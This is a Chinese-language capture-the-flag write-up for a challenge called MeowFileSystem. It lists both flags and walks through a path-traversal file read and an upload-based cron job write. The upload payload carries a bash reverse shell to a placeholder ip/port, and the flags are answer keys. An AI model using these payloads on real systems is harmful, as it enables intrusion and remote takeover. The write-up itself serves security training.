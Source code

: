 ## MeowFileSystem



### description

两个小题目，分别对应两个 flag：

1. 喵喵有个奇妙的文件管理系统，一不小心好像被人发现了，听说源码里藏了秘密，你能拿到吗？

   Hint: `@GetMapping("/file/{y}/{m}/{d}/{file:.+}")` （后面放

2. 得到源码的你进一步分析，系统权限到手了。听说系统里还有个甜甜的旗子被喵喵一不小心吃掉了，你还能拿到吗？



### flag

1. `tjctf{jv4v_I5_s0_d1f71cu17_f0r_C4ts}`
2. `tjctf{RCE_15_S0_fun_haH4hA}`



### writeup

#### flag1

存在列目录的接口，试试能不能跨目录，发现可以。

![](img/image-20220508070658421.png)

通过上传和下载文件，抓包进一步发现 `/file/` 路由可以利用 `../` 实现任意文件读取，但是需要符合 `/file/a/b/c/balabala` 这样的路由。

构造 payload，在 burpsuite 发包，或者用 `curl --path-as-is`

> --path-as-is    Do not squash .. sequences in URL path

```http
GET /file/../EasyFS/../app.jar HTTP/1.1
Host: xxxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache

```

从而得到源码。

![](img/image-20220508070404143.png)

反编译 jar，可以得到喵喵藏的 flag。

![](img/image-20220508071445332.png)

拼接后 base64 解码，得到第一个 flag。



#### flag2

进行搜索可以发现，源码修改自 https://github.com/iweisi/easy-fs

通过分析源码，发现写入文件的时候直接拼接了传过来的 filename，可以跨目录进行上传。

又因为题目说了需要 RCE，于是考虑通过文件上传写计划任务，反弹 shell

payload:

```http
POST /file/upload HTTP/1.1
Host: xxxxxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:99.0) Gecko/20100101 Firefox/100.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
Content-Type: multipart/form-data; boundary=meowmeow
Content-Length: 189

--meowmeow
Content-Disposition: form-data; name="file"; filename="../../../../../etc/cron.d/root"

*/2 * * * * root bash -c "bash -i >& /dev/tcp/ip/port 0>&1 2>&1"

--meowmeow--

```

注意反弹 shell 的命令结尾是 `\n` 而不是 `\r\n`，否则定时任务会执行失败。（都是调过来的啊

![](img/image-20220508071811079.png)

得到 shell 之后，通过 ps 获取到有个进程 `tail -f /.fffllla4ggg9`，flag 原本在 `/.fffllla4ggg9` 但是已经被删除了。

由于文件未关闭，通过读取 `/proc/7/fd/3` 即可拿到 flag，这里的 7 为 tail 进程对应的 pid。

![](img/image-20220508072109865.png)


喵，出这题调了几个通宵，java 难难，喵喵落泪。

希望大家都能有所收获喵~
